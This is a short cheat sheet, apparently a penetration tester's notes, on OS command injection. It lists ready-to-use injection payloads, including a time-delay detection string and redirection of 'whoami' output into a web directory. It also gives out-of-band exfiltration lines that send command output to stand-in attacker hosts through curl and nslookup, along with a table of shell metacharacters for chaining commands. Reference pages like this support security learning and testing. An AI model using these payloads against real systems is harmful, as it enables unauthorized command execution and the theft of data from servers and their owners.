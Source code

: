 # OS command injection

### <mark style="color:yellow;">Command injection</mark>

```sh
& echo qwerty &
```

Placing `&` after the injected command is generally useful because it separates the injected command from whatever follows the injection point

### <mark style="color:yellow;">Blind OS command</mark>

**Detection**

```sh
# 10 sec. time delay
& ping -c 10 127.0.0.1 &
```

**Exploit**

1. Redirecting output. Note: you must have write permission

```sh
& whoami > /var/www/static/whoami.txt &
curl https://website.com/whoami.txt
```

2. Out-of-band techniques

```sh
& curl `whoami`.webserver-attacker.com & # HTTP traffic may be blocked
& nslookup `whoami`.kgji2ohoyw.web-attacker.com &
```

### <mark style="color:yellow;">Bypass restriction</mark>

* There are so many ways ...
  * https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions

### <mark style="color:yellow;">Metacharacters</mark>

```sh
# Windows & Unix
&
&&
|
||

# Unix
;

# Unix inline execution
`command`
$(command)
```
